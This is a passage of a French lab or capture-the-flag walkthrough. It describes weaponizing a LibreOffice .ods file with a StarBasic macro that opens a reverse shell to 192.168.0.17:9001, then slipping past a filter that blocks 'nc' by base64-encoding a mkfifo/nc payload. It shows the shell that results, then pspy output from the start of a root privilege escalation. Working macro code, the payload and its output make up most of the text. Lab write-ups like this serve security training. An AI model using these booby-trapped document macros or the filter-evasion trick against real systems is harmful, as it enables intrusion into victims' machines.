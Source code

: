       inflating: settings.xml            
     extracting: Thumbnails/thumbnail.png   
      inflating: META-INF/manifest.xml   


Lorsque j'ouvre le fichier `Module1.xml`, il est logique que il détecte `nc` car c'est une commandé prevu, mais je n'arrive pas à voir le deuxième `nc`. Il s'agit en fait de `e(nc)onding` et l'application le détecte comme une string dangereux alors que pas du tout, c'est un faux positif. 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
    <script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****

    Sub Main
            Shell(&quot;nc -e /bin/sh 192.168.0.17 9001&quot;)
    End Sub
    
Dans ce cas, je suis obligé d'enlever `encoding="UTF-8"` dans le fichier `script-lb.xml` et dans `Module1.xml`. Il faut changer également la commande `nc -e /bin/sh 192.168.0.17 9001` par autre chose. Je vais prendre le payload assez connu de `PentestMonkey`, donc je vais prendre ce payload le mettre en `base64` (car il y a nc dedans).

    $ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.17 9001 >/tmp/f"|base64
    cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjE3IDkwMDEgPi90bXAvZgo=

Ensuite dans LibreOffice je vais remplacer le payload par : 

    Shell("echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4wLjE3IDkwMDEgPi90bXAvZgo="|base64 -d|sh")

Nous pouvons sauvegarder, enlever le `encoding="UTF-8"` sauvegarder, compresser le fichier avec `zip -r test.ods *`, et ensuite de l'envoyer à la machine cible à l'aide du serveur Web, lorsque je l'upload je réçois immédiatement un shell. 

    listening on [any] 9001 ...
    connect to [192.168.0.17] from (UNKNOWN) [192.168.0.22] 56628
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c "import pty;pty.spawn('/bin/bash')"
    john@freedom:/var/www/html$ id
    uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
    
# Privesc Root

J'ai pas spécialement trouver des choses intéréssantes pour être SUID, mais il s'avère que le `crontab` exécute une commande, donc je vais en profiter pour installer [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64) pour intercepter les commandes executés dans le système par les utilisateurs.

    john@freedom:/tmp$ ./pspy64 
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
    [...SNIP...]
    2021/01/09 05:48:01 CMD: UID=0    PID=873    | zip -r /backup/4158.zip /office/odt/4158 
    2021/01/09 05:48:01 CMD: UID=0    PID=883    | chmod 777 /backup/2372.zip
    2021/01/09 05:48:01 CMD: UID=0    PID=882    | sleep 180
    